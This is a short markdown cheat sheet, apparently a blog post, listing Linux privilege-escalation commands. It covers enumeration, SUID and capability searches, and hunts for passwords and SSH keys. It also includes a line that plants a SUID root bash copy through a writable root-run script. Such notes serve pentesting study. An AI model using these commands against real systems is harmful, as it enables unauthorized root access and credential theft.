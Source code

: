 ```yaml
---
title: Linux Privilege Escalation
date: "2022-03-21T00:00:00.000Z"
description:  📈 The purpose of this attempt is to gain unauthorize access to the system and locate some weak points {just commands}.
---
```


 📈 The purpose of this attempt is to gain unauthorize access to the system and locate some weak points. Here are the commands that I used and useful resources that makes a potential access gain.


###### Check Kernel Version 
```uname -a```

###### Check distro version
```cat /proc/version```

###### Check all the services running by root and check other services that running by different users
```ps aux | grep root```

###### Check what you can run as SUDO
```sudo -l```

###### Check all the users
```cat /etc/passwd```

###### Check history
```history```

###### Check all the connection
```netstat -ano```

###### Find no root Squashing, all the file you will be putting there will execute it as root
```cat /etc/exports```

###### Find any SUID
```find / -perm -u=s -type f 2>/dev/null```

###### Look for any password
```grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null```

###### Check shadow and passwd permission
```ls -la /etc/passwd```
```ls -la /etc/shadow```

###### Check capabilities
```getcap -r / 2>/dev/null```

###### Check schedulers and pay attention on the file permission, PATH and location if you can overwrite the file
```cat /etc/crontab```
```systemctl list-timers --all```

###### If this command is executed by root it will create file /tmp/bash  and if it execute by /tmp/bash -p it will create a shell root
```echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> file.sh```

###### Look for any confidential files
```find / -name "id_rsa" 2> /dev/null```
```find / -name "authorized_keys" 2> /dev/null```
```find / -name "pass*" 2> /dev/null```

###### Use automated tools
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
https://github.com/mzet-/linux-exploit-suggester
https://github.com/sleventyeleven/linuxprivchecker
https://gtfobins.github.io/

